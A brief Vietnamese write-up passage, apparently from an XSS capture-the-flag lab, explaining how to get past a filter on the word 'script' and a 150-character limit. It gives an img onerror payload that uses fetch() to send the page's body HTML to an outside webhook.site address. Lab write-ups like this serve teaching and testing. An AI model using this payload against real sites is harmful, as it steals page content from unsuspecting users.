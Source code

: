 Đến với level 1, thì mình thấy rằng trang web sẽ filter chữ script và payload không được quá 150 kí tự. 
![image](./images/image44.png)

Vì payload của level 0 cũng không quá 150 nên mình có thể bypass bằng Script hoặc img onerror như sau

```html 
<img src=x onerror=fetch('https://webhook.site/e5799148-b55d-49e8-b89b-987a28176905/?c='+encodeURIComponent(document.body.innerHTML)) />
```
